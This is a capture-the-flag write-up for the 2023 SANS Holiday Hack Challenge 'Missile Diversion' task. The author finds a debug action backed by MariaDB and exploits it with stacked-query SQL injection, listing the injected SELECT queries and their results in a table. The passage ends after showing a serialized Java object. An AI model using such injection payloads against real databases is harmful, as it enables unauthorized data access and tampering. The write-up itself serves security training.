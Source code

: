 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## Missile Diversion
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Thwart Jack's evil plan by re-aiming his missile at the Sun.

### Solution
Re-utilizing the same environment from before, I used the `Consumer Test Tool` to connect to `maltcp://10.1.1.1:1024/nanosat-mo-supervisor-Directory`, start the `missile-targeting-system`, and then connecting to `maltcp://10.1.1.1:1026/missile-targeting-system-Directory`. This exposes the `Debug` Action Service along with 4 Parameter Services: `PointingMode`, returning the current pointing mode, `X` and `Y`, returning the coordinates, and `Debug`, returning the last output from the `Debug` Action Service. Trying to set `X`, `Y` and `PointingMode` was not giving any result. I then tried submitting the `Debug` Action without any input and the `Debug` Parameter Service returned the string `VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204`, clearly identifying the interaction with a DB. I tested the action service for common SQL injection by using the attribute value to inject the payload, eventually finding `;[PAYLOAD]` as a resilient injection pattern. I then enumerated the tables in the database and their content:
| QUERY | RESULTS |
| - | - |
| ; SELECT * FROM pointing_mode_to_str | id: 1 \| numerical_mode: 0 \| str_mode: Earth Point Mode \| str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth.  
id: 2 \| numerical_mode: 1 \| str_mode: Sun Point Mode \| str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. \| |
| ; SELECT * FROM user_variables | java.sql.SQLSyntaxErrorException: (conn-3488) SELECT command denied to user 'targeter @'172.18.0.4' for table missile_targeting system. 'user_variables |
| ; SELECT * FROM messaging | id: 1 \| msg_type: RedAlphaMsg \| msg_data: RONCTTLA \|  
id: 2 \| msg_type: MsgAuth \| msg_data: 220040DL \|
11.2.2-MariaDB-1:11.2.2+maria-ubu2204 \|
id: 3 msg_type: LaunchCode \| msg_data: DLG2209TVX \|
id: 4 \| msg_type: LaunchOrder \| msg_data: CONFIRMED
id: 5 \| msg_type: TargetSelection \| msg_data: CONFIRMED
id: 6 \| msg_type: TimeOnTargetSequence \| msg_data: COMPLETE \|
id: 7 \| msg_type: YieldSelection \| msg_data: COMPLETE \|
id: 8 \| msg_type: MissileDownlink \| msg_data: ONLINE \|
id: 9 \| msg_type: TargetDownlinked \| msg_data: FALSE \| |
| ; SELECT * FROM pointing_mode | id: 1 \| numerical_mode: 0 \| |
| ; SELECT * FROM target_coordinates | id: 1 lat: 1.14514 \| Ing: -145.262 \| |
| ; SELECT * FROM satellite_query | jid: 1 \| object: ........sr..SatelliteQueryFileFolderUtility.......................Z..isQueryZ..isUpdateL..pathOrStatementt..Ljava/lang/String;xp..t.)/opt/SatelliteQueryFileFolderUtility.java \| results: import java.io.Serializable;
# Output removed to shorten report
public class SatelliteQueryFileFolderUtility implements Serializable {
# Output removed to shorten report |


